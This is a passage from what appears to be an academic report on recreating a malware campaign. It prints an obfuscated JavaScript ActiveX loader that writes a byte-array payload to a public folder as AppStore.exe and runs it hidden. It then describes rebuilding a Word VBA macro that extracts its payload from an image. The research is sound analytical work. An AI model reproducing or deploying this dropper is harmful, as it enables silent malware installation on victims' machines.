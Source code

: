\begin{lstlisting}[language=JavaScript, caption={Obfuscated payload loader.}][H]
try {
  var b = new ActiveXObject('Scripting.FileSystemObject'),
    d = _0x556975(0x1dd); // d = 'C:/Users/Public/Libraries/AppStore.exe'

  e = b[_0x556975(0x1e4)](d, !![]), //call Scripting.FileSystemObject.CreateTextFile(path, true)
    e[_0x556975(0x1ec)]('MZ'), // call Scripting.FileSystemObject.Write('MZ') on the created file
    e['Close'](); // close the file
  var data = [144, 3, 0, 4, 0, 65535, 0, 184], // replace with payload
      i, len;
  len = data['length'];
  var content = '';
  for (i = 0x0; i < len; i++) {
    content += String[_0x556975(0x1dc)](data[i]); // content += String.fromCharCode(data[i])
  }
  e = b[_0x556975(0x1e3)](d, 0x8, ![], -0x1), // call Scripting.FileSystemObject.OpenTextFile(path, 8, false, -1)
    e[_0x556975(0x1ec)](content), // call Scripting.FileSystemObject.Write(content) on the opened file
    e[_0x556975(0x1eb)](); // close the file
  var c = new ActiveXObject('WScript.Shell');
  c['Run'](d, 0x0); // run the payload
  
} catch (_0x1f5265) {}
window[_0x556975(0x1e7)](); // window.close()
\end{lstlisting}


\section{Microsoft Word Document - \acrshort{VBA} Payload} \label{sec:impl-macro}
Recreating the final Microsoft Word Document made all the other parts come together. Even though the main structure of
the document macro payload was outlined in the article, some notable functions were not shown, such as the Base 64
decoding function and, most importantly, the payload extracting \verb+WIA_ConvertImage+ function.

The lack of this function made recreating the malware a lot more difficult. At first, we thought that the function might
be a library function, but it turned out to simply be a name for an image conversion function which uses the
\acrfull{WIA} \acrshort{API}. While searching for the function online, we found a code dump of a malicious document which
heavily resembled our analysed payload on \url{www.docguard.io}\footnote{\url{
https://app.docguard.io/0193bd8bcbce9765dbecb288d46286bdc134261e4bff1f3c1f772d34fe4ec695/results/codes}
[Last accessed 3.6.2022]}. While this function may have not been identical to the one in our analysed payload, it
provided a good starting point for our testing. %


